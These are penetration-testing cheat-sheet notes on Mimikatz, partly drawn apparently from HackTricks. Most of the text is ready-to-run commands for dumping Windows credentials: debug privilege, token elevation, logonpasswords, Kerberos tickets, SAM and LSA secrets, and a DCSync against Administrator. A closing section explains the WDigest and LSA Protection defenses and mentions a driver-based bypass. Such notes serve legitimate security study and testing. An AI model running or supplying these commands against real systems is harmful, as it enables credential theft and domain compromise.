 ```c
privilege::debug
#allows u to interact with process owned by another account
```

Elevate to system user level priveleges:
```c
token::elevate
```

```c
#dump creds of all logged on users
sekurlsa::logonpasswords
```

```c
#show tickets stored in memory, you could access another share and then do this in mimikatz (dir \\web04.corp.com\backup)
sekurlsa::tickets
```

```c
lsadump::sam
lsadump::secrets
```

After uploading mimikatz, and having found user Administrator exists, try dumping secrets
```c
.\mimikatz.exe "lsadump::dcsync /user:Administrator" "exit"
```




## LM and Clear-Text in memory[](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz#lm-and-clear-text-in-memory)

Starting with Windows 8.1 and Windows Server 2012 R2, the LM hash and “clear-text” password are no longer in memory.

In order to prevent the “clear-text” password from being placed in LSASS, the following registry key needs to be set to “0” (Digest Disabled):

_HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest “UseLogonCredential”(DWORD)_

## **Mimikatz & LSA Protection:**[](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz#mimikatz-and-lsa-protection)

Windows Server 2012 R2 and Windows 8.1 includes a new feature called LSA Protection which involves enabling [LSASS as a protected process on Windows Server 2012 R2](https://technet.microsoft.com/en-us/library/dn408187.aspx) (Mimikatz can bypass with a driver, but that should make some noise in the event logs):

_The LSA, which includes the Local Security Authority Server Service (LSASS) process, validates users for local and remote sign-ins and enforces local security policies. The Windows 8.1 operating system provides additional protection for the LSA to prevent reading memory and code injection by non-protected processes. This provides added security for the credentials that the LSA stores and manages._
